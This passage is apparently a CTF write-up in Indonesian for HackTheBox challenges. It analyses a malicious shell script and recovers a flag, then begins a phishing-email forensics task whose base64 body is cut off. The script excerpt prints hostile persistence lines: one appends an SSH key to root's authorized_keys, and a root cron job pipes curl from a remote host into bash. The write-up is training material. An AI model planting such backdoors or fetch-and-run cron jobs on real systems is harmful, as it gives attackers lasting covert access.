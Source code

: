 Analisa file script.sh tersebut, diketahui flag ada pada ssh authorized_keys serta base64 dari crontab

```sh
.....SNIP.....
echo "ssh-rsa AAAAB4NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D7s4J0L7XV2kep0rNzgY1S1IdE8HDAf7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B user@tS_u0y_ll1w{BTH" >> /root/.ssh/authorized_keys

.....SNIP.....
echo "*/5 * * * * root curl -s http://legions.korp.htb/0xda4.0xda4.$ARCH | bash -c 'NG5kX3kwdVJfR3IwdU5kISF9' " >> /etc/crontab
```

Solver:

```sh
echo "user@tS_u0y_ll1w{BTH" | rev && echo "NG5kX3kwdVJfR3IwdU5kISF9" | base64 -d
```

**Flag**: HTB{w1ll_y0u_St@resu4nd_y0uR_Gr0uNd!!}

**================================================================================================**

### **Urgent - Forensics**

**Solving Scenario:**\
Urgent Faction Recruitment Opportunity - Join Forces Against KORP™ Tyranny.eml file:

```eml
X-Pm-Content-Encryption: end-to-end
X-Pm-Origin: internal
Subject: =?utf-8?Q?Urgent:_Faction_Recruitment_Opportunity_-_Join_Forces_Against_KORP=E2=84=A2_Tyranny!?=
From: anonmember1337 <anonmember1337@protonmail.com>
Date: Thu, 29 Feb 2024 12:52:17 +0000
Mime-Version: 1.0
Content-Type: multipart/mixed;boundary=---------------------2de0b0287d83378ead36e06aee64e4e5
To: factiongroups@gmail.com <factiongroups@gmail.com>
X-Attached: onlineform.html
Message-Id: <XVhH1Dg0VTGbfCjiZoHYDfUEfYdR0B0ppVem4t3oCwj6W21bavORQROAiXy84P6MKLpUKJmWRPw5C529AMwxhNiJ-8rfYzkdLjazI5feIQo=@protonmail.com>
X-Pm-Scheduled-Sent-Original-Time: Thu, 29 Feb 2024 12:52:05 +0000
X-Pm-Recipient-Authentication: factiongroups%40gmail.com=none
X-Pm-Recipient-Encryption: factiongroups%40gmail.com=none

-----------------------2de0b0287d83378ead36e06aee64e4e5
Content-Type: multipart/related;boundary=---------------------f4c91d2d4b35eb7cfece5203a97c3399

-----------------------f4c91d2d4b35eb7cfece5203a97c3399
Content-Type: text/html;charset=utf-8
Content-Transfer-Encoding: base64

PGRpdiBzdHlsZT0iZm9udC1mYW1pbHk6IEFyaWFsLCBzYW5zLXNlcmlmOyBmb250LXNpemU6IDE0
cHg7Ij48c3BhbiBzdHlsZT0iZm9udC1mYW1pbHk6IE1vbmFjbywgTWVubG8sIENvbnNvbGFzLCAm
cXVvdDtDb3VyaWVyIE5ldyZxdW90OywgbW9ub3NwYWNlOyBmb250LXNpemU6IDEycHg7IGZvbnQt
dmFyaWFudC1saWdhdHVyZXM6IG5vbmU7IHRleHQtYWxpZ246IGxlZnQ7IHdoaXRlLXNwYWNlOiBw
cmUtd3JhcDsgZGlzcGxheTogaW5saW5lICFpbXBvcnRhbnQ7IGNvbG9yOiByZ2IoMjA5LCAyMTAs
IDIxMSk7IGJhY2tncm91bmQtY29sb3I6IHJnYmEoMjMyLCAyMzIsIDIzMiwgMC4wNCk7Ij5EZWFy
IEZlbGxvdyBGYWN0aW9uIExlYWRlciwKCkkgaG9wZSB0aGlzIG1lc3NhZ2UgcmVhY2hlcyB5b3Ug
aW4gZ29vZCBzdGVhZCBhbWlkc3QgdGhlIGNoYW9zIG9mIFRoZSBGcmF5LiBJIHdyaXRlIHRvIHlv
dSB3aXRoIGFuIG9mZmVyIG9mIGFsbGlhbmNlIGFuZCByZXNpc3RhbmNlIGFnYWluc3QgdGhlIG9w
cHJlc3NpdmUgcmVnaW1lIG9mIEtPUlDihKIuCgpJdCBoYXMgY29tZSB0byBteSBhdHRlbnRpb24g
dGhhdCBLT1JQ4oSiLCB1bmRlciB0aGUgZ3Vpc2Ugb2YgZmFjaWxpdGF0aW5nIFRoZSBGcmF5LCBz
```